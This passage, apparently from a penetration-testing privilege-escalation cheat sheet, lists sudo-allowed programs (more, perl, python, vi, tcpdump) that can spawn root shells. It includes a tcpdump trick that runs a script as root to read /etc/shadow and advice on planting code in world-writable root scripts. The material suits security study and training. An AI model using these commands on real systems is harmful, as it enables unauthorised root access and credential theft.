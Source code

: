 ```text
sudo more /home/pelle/myfile
!/bin/bash
```

`mv`

Overwrite `/etc/shadow` or `/etc/sudoers`

`man`

`nano`

`nc`

`nmap`

`python/perl/ruby/lua/etc`

```text
sudo perl
exec "/bin/bash";
ctr-d
```

```text
sudo python
import os
os.system("/bin/bash")
```

`sh`

`tcpdump`

```text
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

`vi/vim`

Can be abused like this:

```text
sudo vi
:shell

:set shell=/bin/bash:shell    
:!bash
```

[How I got root with sudo/](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/)

### World writable scripts invoked as root

If you find a script that is owned by root but is writable by anyone you can add your own malicious code in that script that will escalate your privileges when the script is run as root. It might be part of a cronjob, or otherwise automatized, or it might be run by hand by a sysadmin. You can also check scripts that are called by these scripts.
